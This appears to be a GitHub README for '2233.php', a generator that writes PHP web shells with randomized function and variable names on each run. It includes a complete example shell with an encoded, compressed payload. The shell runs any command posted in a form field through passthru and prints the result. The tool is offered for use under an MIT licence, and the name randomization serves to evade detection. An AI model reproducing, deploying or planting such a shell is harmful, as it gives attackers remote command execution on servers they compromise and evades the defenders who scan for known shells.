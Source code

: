 2233.php
========

## Overview

2233.php is a webshell generator, it generates the function and variable names for a web shell on each run, and spits them to stdout.

## Usage

    $ php -f 2233.php

...and then a new web shell pops out.
    
## Example Shell
    <?php
    $SnHCQlIQNe2 = gzinflate(base64_decode("dVFhS8MwEP3urzgjioqyrm7rXLuBoN8GTtwnv6VtasuaXG2vujn87ybpxuLAEB53715fj5coJ1nOTkCfKBc87UrbNrQpxaE3p1BVS1uIebJ6r7FV6W2CJdYTqN/jS384vIE9XIXwVaSUT6Dveefhzx+ba9hChopum+JbaIVfrUNwnLwbMFd7WFXGZVFuJiBRYVPxRMBpISusiSs6co4x3fy/n2dW6+Dq6EPtq7buDv1AC/fgqqOeE0zUO4QWmZ87+WVYS+AJFaimLP54G3y2j7gYMyjSKTNDBlJQjrpbPL8u2d+oI5s10KYSU0ZiTQwUl7rm89XjKh8t5y8+A94SJiirUpAeYZZ1VIZJ2xz5xS0Rqp1h08ayIDa7OFsHT6FG3zM4GhkcDg0GfYN3FgeuZmz5gVX2D3wwcKaWDx6sxsGO2fn4trZ6/95Ox47bUxj1upWdSHsmtl3aCab6EaKqFrNf"));
    
    function S0CPIBHLSac($O1gids31RI){
        echo "<span>$ ".$O1gids31RI."</span><br>";
        echo htmlentities(passthru($O1gids31RI." 2>&1"));
    }
    echo preg_replace("/bqZ4vuDoP8/", basename($_SERVER["SCRIPT_NAME"]), $SnHCQlIQNe2);
    
    if (isset($_POST["aLkDkh6TLQ2"])){
        S0CPIBHLSac($_POST["aLkDkh6TLQ2"]);
    }
    else {
        S0CPIBHLSac("#");
    }
    __halt_compiler/*
    */();

They're all pretty much the same format, just randomized variable/function names.

## Licence

MIT.
